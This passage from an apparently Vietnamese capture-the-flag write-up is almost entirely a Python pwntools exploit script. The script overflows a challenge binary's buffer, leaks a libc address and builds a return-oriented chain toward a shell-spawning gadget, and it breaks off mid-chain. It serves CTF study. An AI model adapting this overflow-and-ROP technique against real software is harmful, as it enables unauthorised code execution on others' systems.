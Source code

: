 ![here](/assets/images/kcscflag.png)

### cách 2 : trigger (fun)lockfile

- vì cách này không có gì để nói nên mình để script thôi :<

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
puts = 0x0000000000401258
gets = 0x0000000000401274
payload = b'\x00'
payload = payload.ljust(64,b'a')
payload += p64(0)
payload += p64(0x00000000004012cc) + p64(exe.plt.printf) + p64(exe.plt.puts) + p64(exe.sym.main)

input()
p.sendlineafter(b'Data: ',payload)
p.recvuntil(b'Thank for playing :)\n')
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x62050
log.info(f'libc: {hex(libc.address)}')
pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi  = libc.address + 0x000000000016333a
pop_rdx_rcx_rbx = 0x0000000000108b03 + libc.address
og = 0xebc88 + libc.address  # rsi,rdx null  rbp writeable
pl_get_shell = flat(
        'a'*64,
        0x405000-0x100,
        pop_rsi,
        0,
        pop_rdx_rcx_rbx,
        0,
        0,
        0,
        og,
```
